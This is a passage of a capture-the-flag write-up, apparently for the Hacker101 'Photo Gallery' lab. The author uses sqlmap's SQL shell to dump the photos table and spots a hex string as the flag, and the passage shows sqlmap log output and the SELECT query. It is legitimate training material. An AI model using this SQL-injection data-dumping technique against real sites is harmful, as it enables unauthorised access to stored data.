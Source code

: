 Ok, let's try to type something...

Typing `?` Doesn't work, I don't know why I typed that...

Let's try to see the contents of the `photos` table. Let's type `USE level5` as we would in an sql shell. No answer back which is good.

Now let's send `SELECT * FROM photos` about which sqlmap says:

```log
[18:19:42] [INFO] fetching SQL SELECT statement query output: 'SELECT * FROM photos'
[18:19:42] [INFO] you did not provide the fields in your query. sqlmap will retrieve the column names itself
[18:19:42] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
```

Ok, I though I had an interactive shell running. That is not the case. Sqlmap tries to create the *illusion* of an SQL shell I guess. Each SQL command is run by making a request to the server, it doesn't ssh into it. After some time we see:

```log
[...]

the SQL query provided can return 3 entries. How many entries do you want to retrieve?
[a] All (default)
[#] Specific number
[q] Quit
> a

[...]

[18:20:09] [INFO] the query with expanded column name(s) is: SELECT filename, id, parent, title FROM photos

[...]

[*] files/adorable.jpg, 1, 1, Utterly adorable
[*] files/purrfect.jpg, 2, 1, Purrfect
[*] d107946d4c338bd606e3074815ed6545f31b2b97b46b7cb44e20f37580512c0b, 3, 1, Invisible
```

Ok, before examining the results, let's exit the *sql shell*.

The final value for the `filename` is strange. It must be some encoded string or something similar.

*Some googling later*

Ok, that was a strange series of events... I initially thought this was a base64 string, which is not the case. Then I noticed that the letters only go up to `f` and the string has an even number of characters. This means that this might be a series of HEX values. Is it an ascii string? Wait a minute! The flag is a series of hex values. "Is the flag looking right at me?" is what I thought. This is indeed the case. That is the flag.

### Notes:
* A very nicely written and honest writeup for this challenge is [this one](https://dev.to/caffiendkitten/hacker101-ctf-photo-gallery-4foi) from *DaNeil C*. I got the motivation to use `sqlmap` instead of writing my own tool from scratch. I don't know how the author decoded the flag though. It might be an old version of the challenge? The write up was initially written on `Apr 25, 2020` and updated on `Dec 19, 2020`. The author maybe wrote that to divert the reader from the fact that the hex string was in fact the flag.
* Another write up is the [one](https://www.secjuice.com/photo-gallery/) from *pirateducky*. He solves the second flag by writing his own ruby script.
* The actual flag has been replaced by random HEX values.

---